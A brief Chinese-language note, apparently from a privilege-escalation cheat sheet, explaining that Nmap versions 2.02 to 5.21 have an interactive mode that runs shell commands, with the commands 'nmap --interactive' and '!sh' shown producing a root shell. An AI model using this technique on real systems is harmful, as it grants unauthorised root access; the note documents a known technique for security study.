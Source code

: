 # 较旧版本的 Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令，使用 nmap -V 查看版本是否满足条件。

```
# 进入交互模式
nmap --interactive
# getshell
nmap> !sh
sh-3.2# whoami
root

```
